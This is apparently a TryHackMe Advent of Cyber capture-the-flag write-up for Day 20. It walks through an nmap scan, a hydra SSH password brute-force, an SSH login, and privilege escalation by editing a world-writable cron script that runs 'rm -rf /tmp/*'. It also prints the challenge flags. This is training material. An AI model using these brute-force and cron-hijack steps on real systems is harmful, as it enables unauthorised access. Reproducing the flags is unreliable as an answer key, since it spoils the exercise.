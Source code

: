 # TryHackMe [Advent of Cyber 1](https://tryhackme.com/room/25daysofchristmas) Day 20
## What port is SSH running on?
* According to the hint:
> Use `nmap` to enumerate services on ports 4000 and 5000.

```bash
$ sudo nmap -sV -p 4000-5000 -vv 10.10.138.13
PORT     STATE SERVICE REASON         VERSION
4567/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Answer**: `4567`
## Crack Sam's password and read `flag1.txt`
1. Use `hydra` to crack Sam's SSH password:
```bash
$ hydra -l sam -P rockyou.txt ssh://10.10.138.13 -s 4567
[4567][ssh] host: 10.10.138.13   login: sam   password: chocolate
```
2. Connect to his server using SSH:
```bash
$  ssh sam@10.10.138.13 -p 4567
sam@10.10.138.13's password: chocolate
sam@ip-10-10-138-13:~$ ls
flag1.txt
sam@ip-10-10-138-13:~$ cat flag1.txt 
THM{dec4389bc09669650f3479334532aeab}
```

**Flag 1**: `THM{dec4389bc09669650f3479334532aeab}`
## Escalate your privileges by taking advantage of a cronjob running every minute. What is the 2nd flag?
1. The `/home/scripts` is owned by the `root` user:
```bash
sam@ip-10-10-138-13:~$ ls -la /home
total 20
drwxr-xr-x  5 root   root   4096 Dec 19  2019 .
drwxr-xr-x 23 root   root   4096 Jun 30 04:01 ..
drwxr-xr-x  3 sam    sam    4096 Dec 19  2019 sam
drwxrwxrwx  2 root   root   4096 Dec 19  2019 scripts
drwxr-xr-x  6 ubuntu ubuntu 4096 Dec 19  2019 ubuntu
```
2. The `/home/scripts/clean_up.sh` file is owned by the `ubuntu` user which might indicate that it is used by a cronjob:
```bash
sam@ip-10-10-138-13:~$ ls -la /home/scripts/
total 16
drwxrwxrwx 2 root   root   4096 Dec 19  2019 .
drwxr-xr-x 5 root   root   4096 Dec 19  2019 ..
-rwxrwxrwx 1 ubuntu ubuntu   14 Dec 19  2019 clean_up.sh
-rw-r--r-- 1 root   root      5 Dec 19  2019 test.txt
```
3. The `/home/scripts/clean_up.sh` removes the contents of the `/tmp` directory which used to store temporary content:
```bash
sam@ip-10-10-138-13:~$ cat /home/scripts/clean_up.sh 
rm -rf /tmp/*
```
2. The 2nd flag is located in `ubuntu`'s home directory:
```bash
sam@ip-10-10-138-13:~$ find /home -type f -name "flag2*"
find: ‘/home/ubuntu/.ssh’: Permission denied
find: ‘/home/ubuntu/.cache’: Permission denied
/home/ubuntu/flag2.txt
```
3. Add `chmod 404 /home/ubuntu/flag2.txt` to the end of `/home/scripts/clean_up.sh` in order to change its read permissions.
4. Wait for a minute and read `/home/ubuntu/flag2.txt`:
```
sam@ip-10-10-138-13:~$ cat /home/ubuntu/flag2.txt
THM{b27d33705f97ba2e1f444ec2da5f5f61}
```

**Flag 2**: `THM{b27d33705f97ba2e1f444ec2da5f5f61}`